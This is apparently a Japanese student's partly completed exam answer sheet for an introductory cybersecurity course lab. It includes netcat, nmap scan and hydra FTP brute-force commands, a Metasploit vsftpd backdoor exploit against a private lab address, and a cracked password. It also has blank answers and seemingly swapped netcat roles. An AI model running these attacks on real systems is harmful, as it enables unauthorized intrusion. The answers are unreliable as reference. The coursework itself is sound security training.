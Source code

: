 # CyberSecurity I Exam 2020 回答用紙

## 問1 [netcat]

### サーバー側コマンド

```sh
# ここに回答を記述
sudo nc ipアドレス ポート番号
```
### クライアント側コマンド

```sh
# ここに回答を記述
nc -lvp ポート番号
```

## 問2 [Password Crack]

```md
<!--  ここに回答を記述 -->
　**omas2:foobar**
  **omas:
```

## 問3 [Port Scanner]

### 1. ping scan

```sh
# ここに回答を記述
sudo nmap -sT 192.168.33.0-127
```

### 2. version scan

```sh
# ここに回答を記述
sudo nmap -sV -p- Metasploitable2のipアドレス
```

## 問4 [Metasploit Framework]

```sh
# ここに回答を記述
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST 192.168.33.11 
exploit
```

## 問5 [Online Password Cracker]


### 1. コマンド

```sh
# ここに回答を記述
hydra -L user.list -P passwd -t 4 192.168.33.11 ftp
```

### 2. 解析結果

```sh
# ここに回答を記述

```

## 問6 [Packet Sniffer]

```sh
# ここに回答を記述

```

## 問7 [不正アクセス]

### 1. rootアクセスの件数

```md
<!--  ここに回答を記述 -->

```

### 2. 不正アクセスユーザーのTOP3

```md
<!--  ここに回答を記述 -->

```
### 3. IPアドレスのアクセス件数と発信国

```md
<!--  ここに回答を記述 -->

```

## 問8 [自己評価]

```md
<!--  ここに回答を記述 -->
１０点位
```

## 問9 [講義の感想]

```md
<!--  ここに回答を記述 -->
・nc
・hydra
・nmap 
・kaliなどのBV
・ip a
・msfconsole
・vagrant

感想
授業を通してだったりいろいろvagrantなどを触っていくうちに、ゆっくり理解できるようになって、だんだん楽しくなりました。テストで初めて見るコマンドやワードもあったので、自宅で試してみようと思いました。
```
